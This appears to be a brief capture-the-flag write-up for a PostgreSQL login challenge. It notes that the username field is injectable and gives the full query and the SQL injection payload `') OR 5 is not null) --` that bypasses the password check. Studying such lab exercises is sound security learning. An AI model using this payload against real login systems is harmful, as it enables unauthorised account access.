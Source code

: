 # Po po po po postgresql - Challenge 21

Username is exploitable

Password doesn't appear to be since the input is hashed or something

This is the string we want to run:

`SELECT * FROM users WHERE (username = ('') OR 5 is not null) --')  AND password = ('hashpwd'))`

Username field will then be:

`') OR 5 is not null) --`
